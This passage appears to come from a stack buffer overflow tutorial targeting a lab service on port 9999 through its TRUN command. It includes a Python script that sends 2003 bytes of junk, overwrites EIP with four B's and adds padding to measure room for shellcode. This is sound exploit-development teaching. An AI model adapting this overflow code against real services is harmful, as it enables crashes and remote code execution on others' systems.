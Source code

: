 Now that we know that the offset to the EIP is 2003 bytes, we need to fill the stack with that many bytes. So if we send over 2003 bytes of junk data we end up at byte 2004. This should be the start of the EIP.

To verify that this is indeed the EIP we will fill byte 2004,2005,2006,2007 with B's. This should result in the EIP containing 4 B's (42424242 in hex).

We also add some extra junk to get an idea of how much space we have on the stack.

```python
#!/usr/bin/python

import socket,sys

address = '192.168.136.130'
port    = 9999

offset  = 2003

buff  = b""         # empty byte var
buff += b'A'*offset # junk
buff += b'B'*4      # EIP
buff += b'C'*256    # some more junk on stack after EIP which we want to eventually store our shellcode and jump to.
buff += b'D'*256    # this also gives us an idea of how much space we have on the stack.
buff += b'E'*128    #
buff += b'F'*128    #
buff += b'G'*64     #
buff += b'H'*64     #
buff += b'I'*32     #
buff += b'J'*32     #

print(buff)

try:
    print(f'[+] Sending buffer: {str(len(buff))} bytes')
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((address,port))
    s.recv(1024)
    s.send(b"TRUN /.:/%s" % buff)
except RuntimeError as err:
    print(f'[!] Unable to connect to the application.')
    sys.exit(0)
finally:
    s.close()
```

![Overwritten EIP 1](images/BO_EIP_424242.png)
